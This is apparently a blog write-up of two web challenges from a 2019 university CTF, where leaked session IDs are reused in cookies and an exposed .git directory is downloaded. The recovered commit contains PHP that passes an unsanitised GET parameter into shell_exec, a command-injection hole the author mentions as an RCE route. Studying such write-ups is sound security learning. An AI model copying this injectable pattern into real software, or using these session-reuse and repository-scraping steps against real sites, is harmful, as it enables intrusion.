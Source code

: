 ```yaml
---
layout: post
title:  "CyberTalents - Ainshams University CTF2019"
description: It was very easy Web Challenge.
tags: websec cybertalents rce
img: "/images/WebCTF/ainshams/banner.jpg"
---
```

I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/images/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/images/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/images/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/images/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# ls -la
total 56
drwxr-xr-x  8 root root 4096 Nov 30 10:56 .
drwxr-xr-x  3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x  2 root root 4096 Nov 30 10:56 branches
-rw-r--r--  1 root root   15 Nov 30 04:56 COMMIT_EDITMSG
-rw-r--r--  1 root root  210 Nov 30 04:55 config
-rw-r--r--  1 root root   73 Nov 30 04:54 description
-rw-r--r--  1 root root   23 Nov 30 04:54 HEAD
drwxr-xr-x  2 root root 4096 Nov 30 10:56 hooks
-rw-r--r--  1 root root  413 Nov 30 04:56 index
-rw-r--r--  1 root root 1420 Nov 30 10:56 index.html
drwxr-xr-x  2 root root 4096 Nov 30 10:56 info
drwxr-xr-x  3 root root 4096 Nov 30 10:56 logs
drwxr-xr-x 12 root root 4096 Nov 30 10:56 objects
drwxr-xr-x  5 root root 4096 Nov 30 10:56 refs
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# git reflog
29ebf0c (HEAD -> master, origin/master) HEAD@{0}: commit (initial): initial commit
```
Awesome so let's see what inside `29ebf0c`  

```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors/.git# git show 29ebf0c
commit 29ebf0c83d1793add4635c43b011b5ee4d4c90a7 (HEAD -> master, origin/master)
Author: root <root@ip-172-31-21-79.eu-central-1.compute.internal>
Date:   Sat Nov 30 09:56:16 2019 +0000

    initial commit

diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..acf36e4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1 @@
+flag
diff --git a/.htaccess b/.htaccess
new file mode 100644
index 0000000..8b13789
--- /dev/null
+++ b/.htaccess
@@ -0,0 +1 @@
+
diff --git a/DoOr1337xoe/.htaccess b/DoOr1337xoe/.htaccess
new file mode 100644
index 0000000..0a9a047
--- /dev/null
+++ b/DoOr1337xoe/.htaccess
```

And i got the index.php file

```Bash
+                <br />^M
+                <b>MD5 Hash: </b>^M
+                <?php^M
+                 echo shell_exec('echo '.$_GET['string'].'| md5sum "-"');^M
+                 ?>^M
+                <br /><br />^M
+            </p>^M
```
So now we have two ways the first one is so easy and the second one is easy  
1. We i will vist ```
DoOr1337xoe/flag
```.  

2. We i will get RCE from bypass this line 
```
echo shell_exec('echo '.$_GET['string'].'| md5sum "-"');
```.   

So if you lazy like me you i will visit ```url
http://18.197.166.159/Broken-doors/DoOr1337xoe/flag
```  

and you will get the flag `flag{Br0k3n_D00r5_4r3_n0t_s4f3}`  

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@Mrx_Exploit](https://twitter.com/MRX_Exploit)
